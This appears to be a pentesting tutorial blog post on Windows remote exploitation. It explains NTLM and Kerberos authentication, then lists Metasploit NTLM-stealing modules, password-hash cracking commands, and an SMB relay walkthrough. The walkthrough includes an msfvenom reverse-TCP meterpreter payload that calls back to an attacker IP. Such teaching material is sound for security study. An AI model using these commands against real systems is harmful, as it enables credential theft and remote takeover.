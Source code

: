 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation Techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in Linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that blog post .**
[https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/]


**Remote Exploitation of Windows Network**

The exploitation process in which attackers exploit's listening services on the target network and tries to get access to the target system.




**Windows Authentication**

Windows uses two types of authentication protocols for clients and server authentication, NTLM and Kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client sends the username to the server to authenticate itself.

3.  Then the server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then the server sends, user name, challenge sent to the client, the response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)
[LM/NT hashes](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use Kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by Unix systems nowadays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends a network authentication request including TGT and name of the target server, for example, MS Active Directory.

4.  After that Kerberos server reply including session ticket for use with the target server

5.  The client presents a time-stamped session ticket to the target server as the authentication

6.  Finally, the target server provides authentication back to the client.

Authentication Successful!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look at Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** Important.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


John Hashes Formats [http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats]

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

rcracki_mt

[https://github.com/foreni-packages/rcracki_mt]

Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h: It is used to specify the first 8-bytes of the LMHASH
* -t: It is the number of threads to use
* *.rti: It is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is a tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
``



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on Metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse TCP .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use other windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation all depends on the previous phases of pentesting_** 
